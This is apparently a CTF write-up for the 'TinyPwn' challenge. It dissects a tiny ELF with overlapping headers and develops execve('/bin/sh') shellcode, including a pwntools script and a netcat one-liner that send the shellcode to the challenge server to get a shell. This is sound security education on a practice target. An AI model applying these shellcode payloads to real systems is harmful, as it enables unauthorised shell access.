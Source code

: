 ```yaml
---
author: micronoyau
layout: post
title: "TinyPwn"
date: 2023-09-25 12:00:00 +0200
excerpt_separator: <!--more-->
---
```


In this challenge, we are given a very small ELF file (only 69 bytes long).
I was clearly inspired by this following article which I strongly ecourage reading : https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html.
The program waits for an input from the user and then immediatly leads to a segfault. The goal is to find the proper input.

## Understanding the ELF structure

As usual, let's try to open and disassemble this file in gdb.

```
"/home/micronoyau/Documents/vsctf/tinypwn/tinypwn": not in executable format: file format not recognized
```

Ooops, gdb does not understand the file structure. But the file is still an elf :
```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ file tinypwn
tinypwn: ELF 32-bit invalid byte order (SYSV)
```

Lets do a quick hexdump to get more insight into this file :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ hexdump -C tinypwn
00000000  7f 45 4c 46 01 00 00 00  00 00 00 00 00 00 01 00  |.ELF............|
00000010  02 00 03 00 34 00 01 00  34 00 01 00 04 00 00 00  |....4...4.......|
00000020  2f 62 69 6e 2f 73 68 00  34 00 20 00 01 00 00 00  |/bin/sh.4. .....|
00000030  00 00 00 00 6a 03 58 bb  00 00 00 00 89 e1 6a 0d  |....j.X.......j.|
00000040  5a cd 80 ff e4                                    |Z....|
00000045
```

There is the string `/bin/sh` at offset 32. Most likely we are going to need that at some point.

The ELF header is the following (please check https://en.wikipedia.org/wiki/Executable_and_Linkable_Format for more details):

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -h tinypwn
ELF Header:
  Magic:   7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  Class:                             ELF32
  Data:                              none
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x10034
  Entry point address:               0x10034
  Start of program headers:          4 (bytes into file)
  Start of section headers:          1852400175 (bytes into file)
  Flags:                             0x68732f
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers
```

`readelf` is warning us that the ELF file is potentially corrupt because the section headers offset (`e_shoff`) is `0x2f62696e=1852400175`, but the file specifies there is no section headers.
Ok, we can clearly see there is an overlap between the ELF header and some other data.  More exactly, we can see the program header offset (`e_phoff`) is 4, but the header is 52 bytes long (`e_ehsize`). Lets take a look at the list of segments :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -l tinypwn
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers

Elf file type is EXEC (Executable file)
Entry point 0x10034
There is 1 program header, starting at offset 4

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x00010000 0x00030002 0x10034 0x10034 R   0x6e69622f
```

The only segment encompasses the entire file and even more (`Offset=0`, `Filesize=0x10034`) at the address `0x10000`. We saw previously in the ELF header that the entrypoint is `0x10034`. Therefore the first instruction is the `0x34=52`th byte in file, right after the end of the header.
Lets disassemble the remaining portion after the header :

```
0:  6a 03                   push   0x3
2:  58                      pop    eax
3:  bb 00 00 00 00          mov    ebx,0x0
8:  89 e1                   mov    ecx,esp
a:  6a 0d                   push   0xd
c:  5a                      pop    edx
d:  cd 80                   int    0x80
f:  ff e4                   jmp    esp
```

Essentially, this does a syscall to `read` (system call number `eax=3`) on stdin (file descriptor `ebx=0`) and stores the result on the stack (`ecx=esp`). We can read up to `edx=0xd=13` characters. Next, it jumps on top of the stack.

The exploit is easy : we just need to input a shellcode to perform a syscall to execve. We know /bin/sh has offset `0x20` in file, so its address in memory is `0x10020`.

```
0:  b0 0b                   mov    al,0xb
2:  bb 20 00 01 00          mov    ebx,0x10020
7:  31 c9                   xor    ecx,ecx
9:  31 d2                   xor    edx,edx
b:  cd 80                   int    0x80 
```

The corresponding shellcode is `\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80`. The null bytes are not a problem because the `read` syscall does not stop until it reaches the end of the buffer or an EOF. But in the heat of the action we forgot this detail and tried to modify this shellcode to remove any `\x00`.

We did not find any shellcode less than 13 bytes to setup properly every register. Instead, we implemented the exact same syscall but changed `edx` to allow for more room :

```
0:  66 ba 10 10             mov    dx,0x1010
4:  b0 03                   mov    al,0x3
6:  cd 80                   int    0x80
```

\x66\xBA\x10\x10\xB0\x03\xCD\x80

Then, all registers are set up accordingly
```
0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  66 bb 02 10             mov    bx,0x1002
7:  c1 e3 04                shl    ebx,0x4
a:  31 c9                   xor    ecx,ecx
c:  31 d2                   xor    edx,edx
e:  cd 80                   int    0x80
```

To account for the padding introduced by this method (at the time of the syscall in the first step, `eip` is somewhere above the stack pointer), we add some NOP instructions between both shellcodes, as shown in this radare2 dump right after the syscall :
![](/assets/vsctf/tinypwn_r2.png)

Putting every piece together and using pwntools :

```
from pwn import *

conn = remote('vsc.tf', 3026)
conn.sendline('\x66\x81\xC2\x01\x01\xB0\x03\xCD\x80\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6A\x0B\x58\x66\xBB\x02\x10\xC1\xE3\x04\x31\xC9\x31\xD2\xCD\x80')
conn.interactive()
```

![](/assets/vsctf/tinypwn_expl_flag.png)

Note that, to come back to the beginning of the discussion, that our method is overkill compared to a more optimal solution since we don't need to take special care of NULL bytes :
```
echo -ne '\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80\ncat flag.txt\n' | nc vsc.tf 3026
```
